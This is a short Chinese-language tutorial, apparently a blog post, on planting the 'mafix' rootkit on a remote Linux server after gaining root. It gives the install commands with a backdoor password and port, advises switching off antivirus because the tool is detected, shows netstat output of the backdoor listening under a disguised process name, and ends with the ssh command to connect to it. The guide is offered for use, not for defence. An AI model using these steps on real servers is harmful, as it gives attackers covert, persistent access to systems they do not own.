 1.首先是获得远程服务器的root权限，当然这是必须的。

2.然后下载rootkit程序，本文用到的是mafix，可以点击下载，也可以到附件中去下载。

下载前做好把杀毒软件关掉，基本上汇报毒的。

3.开始安装

tar zxvf mafix.tar.gz

cd mafix

./root rootkit 345 (其中rootkit为你连接后门程序时的密码，345为连接的端口)

可以验证一下是否成功：

[root@localhost ~]# netstat -anlp|grep 345 tcp 0 0 0.0.0.0:345 0.0.0.0:* LISTEN 11280/ttyload

可以看到，345端口已经在监听了。

4.连接后门程序

其实没什么说的，ssh就可以了

ssh 192.168.211.128 -p 345